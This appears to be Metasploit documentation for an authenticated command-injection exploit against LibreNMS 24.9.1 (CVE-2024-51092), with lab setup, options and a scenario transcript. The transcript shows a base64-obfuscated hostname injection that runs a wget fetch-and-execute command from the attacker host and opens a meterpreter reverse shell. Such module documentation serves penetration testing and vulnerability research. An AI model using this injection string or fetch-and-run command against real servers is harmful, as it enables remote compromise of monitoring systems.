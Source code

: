 ## Vulnerable Application

An authenticated attacker can create dangerous directory names on the system and
alter sensitive configuration parameters through the web portal.
Those two defects combined then allows to inject arbitrary OS commands inside shell_exec() calls,
thus achieving arbitrary code execution.

The vulnerability affects:

    * LibreNMS <= 24.9.1

This module was successfully tested on:

    * LibreNMS 24.9.1 installed on Ubuntu 22.04


### Installation

1. Follow the [official instructions](https://docs.librenms.org/Installation/Install-LibreNMS/).
After git clone, change version: `git checkout tags/24.9.1`.

2. Comment out the last line in `/etc/cron.d/librenms`:
`19 0 * * * librenms /opt/librenms/daily.sh >> /dev/null 2>&1`.
Otherwise, the version will be updated to the latest, causing the exploit to fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092`
4. Do: `run lhost=<lhost> rhost=<rhost> username=<username> password=<password>`
5. (Optional) Do: `php artisan device:poll all` on the victim machine or wait up to 5 minutes (default cron setting)
6. You should get a meterpreter


## Options
### USERNAME (required)
User name for LibreNMS.

### PASSWORD (required)
Password for LibreNMS.

### PATH (required)
LibreNMS installed location. Default is `/opt/librenms`.

### WAIT (required)
Wait time (seconds) for cron to poll the device. Default is `315`.


## Scenarios
```
msf6 > use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > options

Module options (exploit/linux/http/librenms_authenticated_rce_cve_2024_51092):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password for LibreNMS
   PATH      /opt/librenms    yes       LibreNMS installed location
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       User name for LibreNMS
   VHOST                      no        HTTP server virtual host
   WAIT      315              yes       Wait time (seconds) for cron to poll the device


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      n                no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       s                no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > run lhost=192.168.56.1 rhost=192.168.56.17 username=librenms password=librenms
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Successfully logged into LibreNMS.
[+] The target appears to be vulnerable. LibreNMS version 24.9.1 detected, which is vulnerable.
[*] Try to add host: 'f;echo d2dldCAtcU8gLi9uIGh0dHA6Ly8xOTIuMTY4LjU2LjE6ODA4MC9zO2NobW9kICt4IC4vbjsuL24m|base64 -d|bash;#', length: 100
[*] Added host.
[*] Actual payload: wget -qO ./n http://192.168.56.1:8080/s;chmod +x ./n;./n&
[*] Waiting up to 315 seconds for cron to poll the device...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[+] Deleted n
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:40228) at 2025-01-17 21:19:20 +0900
[*] Reset snmpget to default.
[*] Deleted device: 353

meterpreter > getuid
Server username: librenms
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-50-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

